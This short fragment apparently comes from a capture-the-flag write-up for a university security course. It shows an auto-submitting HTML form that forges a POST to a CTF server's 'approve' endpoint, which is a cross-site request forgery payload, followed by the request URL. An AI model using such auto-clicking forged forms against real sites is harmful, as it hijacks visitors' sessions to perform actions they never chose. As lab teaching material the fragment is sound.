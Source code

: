```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/ed6748362972777c957ca7f8495555b62bdee3aa/approve" role="form">     
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">              
    </div> 
</form>
<script>document.getElementById("giveflag").click();</script>
```

`http://ctf-fsi.fe.up.pt:5004/request/ed6748362972777c957ca7f8495555b62bdee3aa`
